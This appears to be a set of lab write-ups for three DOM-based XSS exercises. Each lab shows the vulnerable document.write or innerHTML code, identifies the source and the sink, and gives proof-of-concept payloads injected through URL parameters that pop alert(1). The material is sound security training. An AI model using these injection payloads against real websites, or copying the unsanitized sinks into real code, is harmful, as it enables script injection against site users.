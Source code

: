 # LAB:1 DOM XSS in document.write sink using source location.search
---
## **Overview**
In this lab, we successfully exploited a **DOM-based Cross-Site Scripting (XSS) vulnerability** in a web application. The vulnerability stemmed from the improper handling of user-controlled input via the `document.write()` function.

## **Vulnerability Analysis**
The application contained the following JavaScript snippet:

```javascript
<script>
    function trackSearch(query) {
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
    }
    var query = (new URLSearchParams(window.location.search)).get('search');
    if(query) {
        trackSearch(query);
    }
</script>
```

### **Key Observations:**
- The script **retrieves the `search` parameter** from the URL using `URLSearchParams`.
- The `search` value is **passed directly** to `document.write()` without sanitization.
- This allows an attacker to **inject arbitrary HTML or JavaScript**, leading to XSS.

## **Exploitation Steps**

1. **Identifying the Source and Sink:**
   - **Source:** `window.location.search` → Retrieves user input from the URL.
   - **Sink:** `document.write()` → Directly writes user input into the DOM.

2. **Crafting the Payload:**
   - To break out of the `<img>` tag and execute JavaScript, we used:
     ```
     "><script>alert(1)</script>
     ```
   - This payload closes the `<img>` tag early and injects a `<script>` element.

3. **Executing the Attack:**
   - We injected our payload into the URL:
     ```
     https://victim.com/?search="><script>alert(1)</script>
     ```
   - The browser interpreted the injected `<script>` and executed `alert(1)`.
   - The successful alert box confirmed **DOM-based XSS**.
---
# LAB:2 DOM XSS in document.write sink using source location.search inside a select element
---
### **Write-Up: DOM-Based XSS in Stock Checker Functionality**  

#### **Introduction**
This lab presents a **DOM-based Cross-Site Scripting (XSS)** vulnerability in the stock checker functionality. The issue arises due to the use of `document.write()` in JavaScript, which directly writes user-controlled data (from `location.search`) into the HTML page without proper sanitization.  

#### **Understanding the Vulnerability**
- The JavaScript code retrieves the `storeId` parameter from the URL and writes it inside an HTML `<select>` dropdown.
- The critical vulnerability lies in the following snippet:  
  ```js
  if(store) {
      document.write('<option selected>'+store+'</option>');
  }
  ```
  - Here, `store` is **user-controlled** and gets injected into the page **without any sanitization**.
  - If an attacker provides a malicious `storeId` value, it can **break out of the `<option>` tag** and inject JavaScript code.

#### **Crafting the Exploit**
To exploit this vulnerability, we need to **escape the `<option>` context** and inject our `<script>` payload.  
- The HTML structure being generated:
  ```html
  <option selected>USER-CONTROLLED-INPUT</option>
  ```
- A simple payload:
  ```
  "><script>alert(1)</script>
  ```
  - **`">`** closes the current `<option>` tag.
  - **`<script>alert(1)</script>`** injects a script that executes `alert(1)`, proving successful exploitation.

#### **Proof of Concept (PoC) Payload**
We append the malicious payload to the URL as follows:  
```
GET /product?productId=1&storeId="><script>alert(1)</script>
```
- This manipulates the resulting HTML:
  ```html
  <option selected=""></option><script>alert(1)</script>
  ```
  - This ensures our script executes immediately.

#### **Execution Steps**
1. **Visit the vulnerable website.**
2. **Modify the URL:**  
   ```
   https://vulnerable-website.com/product?productId=1&storeId="><script>alert(1)</script>
   ```
3. **Press Enter.**
4. **Observe an alert box popping up, confirming XSS execution.**

---
# LAB:3 DOM XSS in innerHTML sink using source location.search
---
# Exploiting DOM-Based XSS via `innerHTML` Sink

## ** Overview**
In this lab, we successfully exploited a **DOM-based Cross-Site Scripting (XSS) vulnerability** caused by the unsafe use of `innerHTML`. The vulnerability allowed us to inject and execute arbitrary JavaScript through user-controlled input.

## ** Vulnerability Analysis**
The application contained the following JavaScript snippet:

```javascript
<script>
    function doSearchQuery(query) {
        document.getElementById('searchMessage').innerHTML = query;
    }
    var query = (new URLSearchParams(window.location.search)).get('search');
    if(query) {
        doSearchQuery(query);
    }
</script>
```

### ** Key Observations:**
- The script **retrieves the `search` parameter** from the URL using `URLSearchParams.get('search')`.
- It **inserts user input directly into the page** via `innerHTML`, without sanitization.
- Modern browsers prevent `<script>` tags from executing when inserted via `innerHTML`, but alternative techniques still allow execution.

## ** Exploitation Steps**

1. **Identifying the Source and Sink:**
   - **Source:** `window.location.search` → Retrieves user input from the URL.
   - **Sink:** `innerHTML` → Directly inserts unescaped input into the DOM.

2. **Crafting the Payload:**
   - Since `<script>` tags don’t execute inside `innerHTML`, we used an **`<img>` element with an `onerror` event** to trigger JavaScript execution.
   - Payload:
     ```html
     <img src=x onerror=alert(1)>
     ```

3. **Executing the Attack:**
   - We injected our payload into the URL:
     ```
     https://victim.com/?search=<img src=x onerror=alert(1)>
     ```
   - The browser interpreted the injected HTML:
     ```html
     <img src=x onerror=alert(1)>
     ```
   - Since `x` is not a valid image, the `onerror` event fired, executing `alert(1)`.
   - The successful alert box confirmed **DOM-based XSS**.

---
